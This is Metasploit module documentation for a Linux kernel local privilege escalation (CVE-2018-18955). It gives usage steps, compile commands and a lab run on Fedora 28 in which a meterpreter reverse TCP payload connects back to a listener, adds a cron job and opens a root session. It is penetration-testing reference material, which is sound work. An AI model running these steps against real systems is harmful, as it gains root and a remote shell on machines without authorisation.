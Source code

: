 ## Description

  This module exploits a vulnerability in Linux kernels 4.15.0 to 4.18.18,
  and 4.19.0 to 4.19.1, where broken uid/gid mappings between nested user
  namespaces and kernel uid/gid mappings allow elevation to root
  (CVE-2018-18955).

  The target system must have unprivileged user namespaces enabled and
  the newuidmap and newgidmap helpers installed (from uidmap package).


## Vulnerable Application

  This module has been tested successfully on:

  * Fedora Workstation 28 kernel 4.16.3-301.fc28.x86_64
  * Kubuntu 18.04 LTS kernel 4.15.0-20-generic (x86_64)
  * Linux Mint 19 kernel 4.15.0-20-generic (x86_64)
  * Ubuntu Linux 18.04.1 LTS kernel 4.15.0-20-generic (x86_64)


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/nested_namespace_idmap_limit_priv_esc`
  4. `set SESSION <SESSION>`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)

  **COMPILE**

  Options: `Auto` `True` `False` (default: `Auto`)

  Whether the exploit should be live compiled with `gcc` on the target system,
  or uploaded as a pre-compiled binary.

  `Auto` will first determine if `gcc` is installed to compile live on the system,
  and fall back to uploading pre-compiled binaries.


## Compiled Executables
  
The module makes use of two pre-compiled exploit executables:

  * `subuid_shell`
  * `subshell`

These are used when `gcc` is not available on the target host for live compiling,
or `COMPILE` is set to `False`.

The executables were cross-compiled with [musl-cross](https://s3.amazonaws.com/muslcross/musl-cross-linux-6.tar.
  
```bash
./i486-linux-musl-gcc -o subshell.out -s -pie -static subshell.c 
./i486-linux-musl-gcc -o subuid_shell.out -s -pie -static subuid_shell.c 
```


## Scenarios

### Fedora Workstation 28 (verbose output)

  ```
  msf5 > use exploit/linux/local/nested_namespace_idmap_limit_priv_esc 
  msf5 exploit(linux/local/nested_namespace_idmap_limit_priv_esc) > set payload linux/x64/meterpreter/reverse_tcp
  payload => linux/x64/meterpreter/reverse_tcp
  msf5 exploit(linux/local/nested_namespace_idmap_limit_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/nested_namespace_idmap_limit_priv_esc) > set lhost 172.16.191.188
  lhost => 172.16.191.188
  msf5 exploit(linux/local/nested_namespace_idmap_limit_priv_esc) > set verbose true
  verbose => true
  msf5 exploit(linux/local/nested_namespace_idmap_limit_priv_esc) > check

  [+] Unprivileged user namespaces are permitted
  [+] /usr/bin/newuidmap is set-uid
  [+] /usr/bin/newgidmap is set-uid
  [+] Kernel version 4.16.3-301.fc28.x86_64 appears to be vulnerable
  [*] The target appears to be vulnerable.
  msf5 exploit(linux/local/nested_namespace_idmap_limit_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [+] Unprivileged user namespaces are permitted
  [+] /usr/bin/newuidmap is set-uid
  [+] /usr/bin/newgidmap is set-uid
  [+] Kernel version 4.16.3-301.fc28.x86_64 appears to be vulnerable
  [+] gcc is installed
  [*] Live compiling exploit on system...
  [*] Writing '/tmp/.LOren.c' (6058 bytes) ...
  [*] Writing '/tmp/.C9dWgG.c' (1604 bytes) ...
  [*] Writing '/tmp/.6syapMd72' (367 bytes) ...
  [*] Adding cron job...
  [*] [.] starting
  [*] [.] setting up namespace
  [*] [~] done, namespace sandbox set up
  [*] [.] mapping subordinate ids
  [*] [.] subuid: 100000
  [*] [.] subgid: 100000
  [*] [~] done, mapped subordinate ids
  [*] [.] executing subshell
  [+] Success. Waiting for job to run (may take a minute)...
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (816260 bytes) to 172.16.191.137
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.137:39150) at 2018-11-24 19:28:02 -0500

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : localhost.localdomain
  OS           : Fedora 28 (Linux 4.16.3-301.fc28.x86_64)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > 
  ```

